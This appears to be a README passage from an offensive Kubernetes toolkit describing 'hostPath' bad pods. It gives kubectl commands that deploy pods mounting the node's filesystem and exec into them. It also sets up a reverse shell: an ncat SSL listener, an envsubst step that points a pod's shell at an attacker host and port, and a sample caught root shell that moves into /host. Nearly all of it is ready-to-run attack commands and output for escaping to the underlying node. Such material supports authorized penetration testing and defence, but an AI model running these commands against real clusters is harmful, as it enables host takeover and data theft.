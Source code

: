 # Pod Creation
## Exec pods
Create one or more of these resource types and exec into the pod

**Pod**  
```bash
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/hostpath/pod/hostpath-exec-pod.yaml
kubectl exec -it hostpath-exec-pod -- bash
```
**Job, CronJob, Deployment, StatefulSet, ReplicaSet, ReplicationController, DaemonSet**

* Replace [RESOURCE_TYPE] with deployment, statefulset, job, etc. 

```bash
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/hostpath/[RESOURCE_TYPE]/hostpath-exec-[RESOURCE_TYPE].yaml 
kubectl get pods | grep hostpath-exec-[RESOURCE_TYPE]      
kubectl exec -it hostpath-exec-[RESOURCE_TYPE]-[ID] -- bash
```

*Keep in mind that if pod security policy blocks the pod, the resource type will still get created. The admission controller only blocks the pods that are created by the resource type.* 

To troubleshoot a case where you don't see pods, use `kubectl describe`

```
kubectl describe hostpath-exec-[RESOURCE_TYPE]
```

## Reverse shell pods
Create one or more of these resources and catch the reverse shell

**Step 1: Set up listener**
```bash
ncat --ssl -vlp 3116
```

**Step 2: Create pod from local manifest without modifying it by using env variables and envsubst**

* Replace [RESOURCE_TYPE] with deployment, statefulset, job, etc. 
* Replace the HOST and PORT values to point the reverse shell to your listener
  
```bash
HOST="10.0.0.1" PORT="3116" envsubst < ./manifests/hostpath/[RESOURCE_TYPE]/hostpath-revshell-[RESOURCE_TYPE].yaml | kubectl apply -f -
```

**Step 3: Catch the shell and cd to /host**
```bash
$ ncat --ssl -vlp 3116
Ncat: Generating a temporary 2048-bit RSA key. Use --ssl-key and --ssl-cert to use a permanent one.
Ncat: Listening on :::3116
Ncat: Listening on 0.0.0.0:3116
Connection received on 10.0.0.162 42035
# cd /host
```
